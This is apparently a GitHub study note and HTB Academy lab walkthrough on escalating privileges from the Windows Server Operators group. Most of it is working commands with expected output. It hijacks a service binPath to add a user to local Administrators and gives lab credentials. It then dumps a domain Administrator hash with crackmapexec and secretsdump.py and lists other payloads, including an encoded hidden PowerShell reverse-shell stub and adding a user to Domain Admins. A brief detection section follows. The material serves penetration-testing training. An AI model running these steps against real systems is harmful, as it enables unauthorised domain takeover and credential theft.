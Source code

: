 # Server Operators Privilege Escalation

## 🎯 Overview

**Server Operators** group allows administration of Windows servers without Domain Admin privileges. Members can **log in locally to Domain Controllers** and have **full control over local services**, enabling privilege escalation through **service binary path modification**.

## 🔑 Key Privileges & Capabilities

```cmd
# Server Operators privileges:
SeBackupPrivilege            # Backup files and directories
SeRestorePrivilege           # Restore files and directories
SERVICE_ALL_ACCESS           # Full control over local services
# Plus: Log on locally to servers/DCs, control services
```

## 🔧 Service Control Exploitation

### Service Reconnaissance
```cmd
# Query service configuration
sc qc AppReadiness

# Expected output:
SERVICE_NAME: AppReadiness
TYPE               : 20  WIN32_SHARE_PROCESS
START_TYPE         : 3   DEMAND_START
BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
SERVICE_START_NAME : LocalSystem
```

### Verify Service Permissions
```cmd
# Check service permissions with PsService
c:\Tools\PsService.exe security AppReadiness

# Key permission:
[ALLOW] BUILTIN\Server Operators
        All                    # ← SERVICE_ALL_ACCESS
```

## 🚀 Binary Path Attack

### Current Admin Group Check
```cmd
# Check current administrators group
net localgroup Administrators

# Expected members:
Administrator
Domain Admins
Enterprise Admins
```

### Modify Service Binary Path
```cmd
# Change binary path to add user to local admins
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

# Expected result:
[SC] ChangeServiceConfig SUCCESS
```

### Execute Service (Expected to Fail)
```cmd
# Start service to execute command
sc start AppReadiness

# Expected failure:
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
```

### Verify Privilege Escalation
```cmd
# Check administrators group membership
net localgroup Administrators

# New member added:
Administrator
Domain Admins
Enterprise Admins
server_adm                    # ← Successfully added
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `server_adm:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Target Service**: AppReadiness
- **Flag Location**: `c:\Users\Administrator\Desktop\ServerOperators\flag.txt`

### Quick Steps
```cmd
# 1. RDP connect and verify current permissions
net localgroup Administrators

# 2. Modify AppReadiness service binary path
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

# 3. Start service (will fail but execute command)
sc start AppReadiness

# 4. Verify local admin access
net localgroup Administrators

# 5. Access flag as local administrator
type c:\Users\Administrator\Desktop\ServerOperators\flag.txt
```

## 🏆 Post-Exploitation Capabilities

### Domain Controller Access
```bash
# Verify Domain Controller access with crackmapexec
crackmapexec smb TARGET_IP -u server_adm -p 'HTB_@cademy_stdnt!'

# Expected result:
SMB         TARGET_IP     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

### Domain Credential Extraction
```bash
# Extract domain credentials using secretsdump.py
secretsdump.py server_adm@TARGET_IP -just-dc-user administrator

# Extract Administrator hash:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```

## 🔄 Alternative Attack Vectors

### Other Target Services
```cmd
# Identify other controllable services
sc query state= all | findstr "SERVICE_NAME"

# Common targets with SYSTEM privileges:
- Themes
- BITS
- Schedule
- EventLog
```

### Alternative Payloads
```cmd
# Reverse shell payload
sc config SERVICE binPath= "cmd /c powershell -nop -w hidden -e BASE64_PAYLOAD"

# Add domain admin
sc config SERVICE binPath= "cmd /c net group 'Domain Admins' server_adm /add /domain"
```

## ⚠️ Detection & Defense

### Detection Indicators
```cmd
# Monitor for:
- Service configuration changes (Event ID 7040)
- Unexpected local group modifications
- Service start failures with privilege escalation
- Binary path modifications to cmd.exe
```

### Defensive Measures
```cmd
# Mitigation strategies:
- Limit Server Operators group membership
- Monitor service configuration changes
- Implement service hardening
- Use least-privilege principles
```

## 💡 Key Takeaways

1. **Server Operators** group provides **SERVICE_ALL_ACCESS** over local services
2. **Binary path modification** enables command execution as **SYSTEM**
3. **Local administrator access** leads to **Domain Controller compromise**
4. **SeBackupPrivilege** provides additional attack vectors
5. **High-impact group** requiring careful access control

---

*Server Operators group exploitation leverages service control capabilities for immediate local administrator access and potential domain compromise.* 